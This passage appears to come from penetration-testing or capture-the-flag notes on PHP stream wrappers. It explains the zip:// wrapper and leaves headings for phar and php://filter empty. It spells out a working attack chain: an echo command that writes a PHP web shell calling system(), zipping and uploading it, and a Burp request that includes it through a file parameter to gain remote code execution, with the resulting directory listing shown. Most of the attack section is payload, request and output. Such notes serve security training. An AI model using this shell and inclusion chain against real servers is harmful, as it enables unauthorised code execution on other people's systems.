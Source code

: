 #### PHP Wrapper zip

Let's say there is a upload functionality on the victim machine, however the file saved doesn't have executeable permission, in that case if we upload a zip file containing a shellcode such as

Creating a php payload for listing current directory files (There can be other payload also. For example, php meterpreter, if the "system" is blocked use, scandir() for directory listing etc. )

```none
echo "<?php system("ls"); ?>" > shell.php
```

and

```none
zip shell.zip shell.php
```

Now, if we upload this zip file somehow to the victim machine and know it's location (Let's say it got uploaded in /uploads) and filename (is def506bd2176265e006f2db3d7b4e9db11c459c1), we can do remote code execution

[Zip Usage](http://php.net/manual/en/wrappers.compression.php)

```none
zip://archive.zip#dir/file.txt
```

Burp Request

```none
GET /?parameter=zip://uploads/def506bd2176265e006f2db3d7b4e9db11c459c1%23shell HTTP/1.1
Host: 10.50.66.93
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

%23 is the #
```

and we get RCE

```none
index.php
upload.php
uploads
```

We may read more about it at [Bypassing PHP Null Byte Injection protections – Part II – CTF Write-up](https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/) or [CodeGate General CTF 2015: Owlur](https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur) -- Read other write-ups in this.

#### PHP Wrapper phar

RCE can also be done using [Using Phar Archives: the phar stream wrapper](http://php.net/manual/en/phar.using.stream.php)

#### PHP wrapper php

#### PHP wrapper php://filter
